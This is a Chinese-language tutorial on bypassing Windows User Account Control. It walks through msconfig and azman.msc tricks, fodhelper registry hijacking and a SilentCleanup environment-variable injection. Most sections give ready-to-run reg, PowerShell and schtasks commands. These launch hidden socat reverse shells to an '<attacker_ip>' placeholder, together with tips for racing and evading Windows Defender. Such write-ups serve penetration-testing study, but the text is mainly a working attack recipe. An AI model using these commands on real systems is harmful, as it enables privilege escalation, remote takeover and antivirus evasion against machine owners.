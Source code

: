 # Bypassing UAC

了解在 Windows 主机中绕过用户帐户控制 （UAC） 的常见方法。

我们将研究绕过Windows系统可用的安全功能的常见方法，称为用户帐户控制（UAC）。此功能允许以低权限运行任何进程，而与运行该进程的人员（普通用户或管理员）无关。

我不会在此记录UAC的概念和作用，仅保留bypass uac

---

## 基于GUI的bypass

### msconfig

在Run中打开msconfig，切换到工具这一栏，在这里打开的cmd是运行于高IL

![在这里插入图片描述](https://img-blog.csdnimg.cn/35fdba5d4c7044ec8e0d33a328bb453e.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/e213c1b8b71d4abb893f9d003c9be711.png)

### azman.msc

与msconfig一样，azman.msc将自动提升，而无需用户交互。如果我们能找到一种方法从该进程中生成 shell，我们将绕过 UAC。请注意，与msconfig不同，azman.msc没有预期的内置方法来生成shell。我们可以通过一点创造力轻松克服这一点。

在Run打开azman.msc -> 打开帮助 -> 在该页面上鼠标右键 -> 查看源

会打开一个记事本，这个记事本是运行在高IL的，通过记事本打开文件，打开cmd

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b8802ca048345fd8852b49b41191bd8.png)

## 自动提升

如前所述，某些可执行文件可以自动提升，无需任何用户干预即可实现高 IL。这适用于控制面板的大多数功能和 Windows 提供的某些可执行文件。

### Fodhelper

fodhelper 可以在使用默认 UAC 设置时自动提升，以便在执行标准管理任务时不会提示管理员提升权限。虽然我们已经看过 autoElevate 可执行文件，但与 msconfig 不同，fodhelper 可以在无法访问 GUI 的情况下被滥用。

我们需要关注的是，运行fodhelper时，它会从注册表寻找，当 Windows 打开文件时，它会检查注册表以了解要使用的应用程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/fee372a463f142da90145e78daf71b33.png)

	C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
	C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"
	C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
	C:\> reg add %REG_KEY% /d %CMD% /f

当在cmd下直接运行fodhelper时，我们的shellcode将会被执行，并且是高IL

### Fodhelper的利用改进

事实上我们对注册表操作，注入shellcode的时候会被AV检测到

![在这里插入图片描述](https://img-blog.csdnimg.cn/8378c0ca84b44c61b4a6e809af971c72.png)

在将有问题的注册表值设置为反向 shell 所需的命令后，我们立即向该注册表值添加了快速查询。令人惊讶的是，查询输出我们的命令完好无损。我们仍然会收到Windows Defender的警报，一秒钟后，违规的注册表值将按预期删除。Windows Defender似乎需要一些时间来对我们的漏洞采取行动

我们可以在设置完注册表项的同时运行fodhelper

	...
	reg add %REG_KEY% /d %CMD% /f & fodhelper.exe

fodhelper 可能会在 AV 启动之前执行，从而为您提供反向外壳。如果由于某种原因它对您不起作用，请记住，此方法不可靠，因为它取决于 AV 和首先执行的有效载荷之间的竞赛。

此外，还有另一个方法就是新建一个progID然后令fodhelper的ms-settings指向它

```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
```

此漏洞利用创建一个名为 .pwn 的新 progID，并将我们的有效负载与打开此类文件时使用的命令相关联。然后，它将 ms-settings 的 CurVer 条目指向我们的 .pwn progID。当 fodhelper 尝试打开 ms-settings 程序时，它将被指向 .pwn progID 并使用其关联的命令。

**尽管我们仍然被检测到，但必须注意的是，有时AV软件使用的检测方法是严格针对已发布的漏洞实施的，而不考虑可能的变化。如果我们将漏洞从 Powershell 转换为使用 cmd.exe，AV 不会引发任何警报**

## 环境变量扩展

### 磁盘清理计划任务

![在这里插入图片描述](https://img-blog.csdnimg.cn/f076b9a4f8e643a182bba09090a357ef.png)

**我们可以看到该任务配置为使用用户帐户运行，这意味着它将继承调用用户的权限。“以最高权限运行”选项将使用调用用户可用的最高特权安全令牌，这是管理员的高 IL 令牌。请注意，如果常规非管理员用户调用此任务，它将仅使用中等 IL 执行，因为这是非管理员可用的最高特权令牌，因此绕过不起作用。**

查看Actions

![在这里插入图片描述](https://img-blog.csdnimg.cn/bb886947547043aa89c5015407384708.png)

由于该命令依赖于环境变量，因此我们可以通过它们注入命令，并通过手动启动 DiskCleanup 任务来执行它们。

将windir变量修改为：

	reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

最终任务执行的完整命令是：

	cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%

在我们的命令结束时，我们连接“&REM”（以空格结尾）来注释扩展环境变量以获取DiskCleanup使用的最终命令时所放置的任何内容。

运行定时任务：

	schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

shellcode将被执行，并且是高IL

## 自动化工具

一个出色的工具可用于测试 UAC 绕过，提供了开箱即用的 UAC 绕过技术的最新存储库

	https://github.com/hfiref0x/UACME

此外，我们的msf也有uac bypass模块